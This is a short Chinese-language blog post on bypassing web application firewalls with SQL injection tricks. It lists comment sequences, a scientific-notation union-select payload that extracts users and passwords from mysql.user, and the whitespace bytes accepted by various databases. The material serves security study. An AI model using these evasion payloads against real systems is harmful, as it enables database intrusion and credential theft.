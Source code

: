 ```yaml
---
layout:     post
title:      BypassWaf_sql
date:       2019-1-6
author:     Wh0ale
header-img: img/sqljection.jpg
catalog: true
tags:
    - sql
---
```


# **0x01 BypassWaf_sql**

## 1. 数据库特性 

**①注释**

```
#
-- 
-- - 
--+ 
// 
/**/ 
/*letmetest*/ 
;%00
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyx86ua17xj20qz0h60we.jpg)

但/**/ > 1个就可以绕过waf



**科学计数法**

```
select id,id_number,weibo from table where id=0e1union select user,password,1e1from mysql.user
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyx851c8dbj20oh0d7mxk.jpg)



**空白字符：**

```
SQLite3 0A 0D 0C 09 20  MySQL5 09 0A 0B 0C 0D A0 20  
PosgresSQL 0A 0D 0C 09 20  Oracle 11g 00 0A 0D 0C 09 20  
MSSQL 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16 ,17,18,19,1A,1B,1C,1D,1E,1F,2
```
